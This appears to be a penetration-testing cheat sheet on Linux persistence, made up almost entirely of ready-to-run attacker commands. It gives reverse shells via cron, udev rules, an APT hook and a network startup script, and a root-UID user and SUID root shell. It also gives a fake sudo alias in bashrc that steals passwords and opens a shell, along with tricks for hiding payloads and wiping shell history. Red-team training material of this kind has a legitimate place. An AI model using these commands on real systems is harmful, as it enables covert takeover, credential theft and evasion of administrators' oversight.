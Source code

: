 # Linux - Persistence

---

# Summary

## Basic reverse shell

    ncat --udp -lvp 4242
    ncat --sctp -lvp 4242
    ncat --tcp -lvp 4242

## Add a root user

    sudo useradd -ou 0 -g 0 john
    sudo passwd john
    echo "linuxpassword" | passwd --stdin john

## Suid Binary

    TMPDIR2="/var/tmp"
    echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
    gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
    rm $TMPDIR2/croissant.c
    chown root:root $TMPDIR2/croissant
    chmod 4777 $TMPDIR2/croissant

## Crontab - Reverse shell

    (crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null

## Backdooring a user's bash_rc

(FR/EN Version)

    TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
    cat << EOF > /tmp/$TMPNAME2
      alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
    EOF
    if [ -f ~/.bashrc ]; then
        cat /tmp/$TMPNAME2 >> ~/.bashrc
    fi
    if [ -f ~/.zshrc ]; then
        cat /tmp/$TMPNAME2 >> ~/.zshrc
    fi
    rm /tmp/$TMPNAME2

or add the following line inside its .bashrc file.

    $ chmod u+x ~/.hidden/fakesudo
    $ echo "alias sudo=~/.hidden/fakesudo" >> ~./bashrc

and create the `fakesudo` script.

    read -sp "[sudo] password for $USER: " sudopass
    echo ""
    sleep 2
    echo "Sorry, try again."
    echo $sudopass >> /tmp/pass.txt
    
    /usr/bin/sudo $@

## Backdooring a startup service

    RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
    sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart

## Backdooring a user startup file

Linux, write a file in `~/.config/autostart/NAME_OF_FILE.desktop`

    In : ~/.config/autostart/*.desktop
    
    [Desktop Entry]
    Type=Application
    Name=Welcome
    Exec=/var/lib/gnome-welcome-tour
    AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
    OnlyShowIn=GNOME;
    X-GNOME-Autostart-enabled=false

## Backdooring a driver

    echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};` Next time "apt-get update" is done, your CMD will be executed!

    echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

    #[2J[2J[2J[2H[2A# Do not remove. Generated from /etc/issue.conf by configure.

Hide in plain sight using zero width spaces in filename.

    touch $(echo -n 'index\u200D.php') index.php

Clear the last line of the history.

    history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null

Clear history

    [SPACE] ANY COMMAND
    or
    export HISTSIZE=0
    export HISTFILESIZE=0
    unset HISTFILE; CTRL-D
    or
    kill -9 $$
    or
    echo "" > ~/.bash_history
    or
    rm ~/.bash_history -rf
    or
    history -c
    or
    ln /dev/null ~/.bash_history -sf

The following directories are temporary and usually writeable

    /var/tmp/
    /tmp/
    /dev/shm/

## References

- [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
- [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
- [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
- [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
- [Pouki from JDI](file:///C:/hackz/PayloadsAllTheThings-master/PayloadsAllTheThings-master/Methodology%20and%20Resources/#no_source_code)
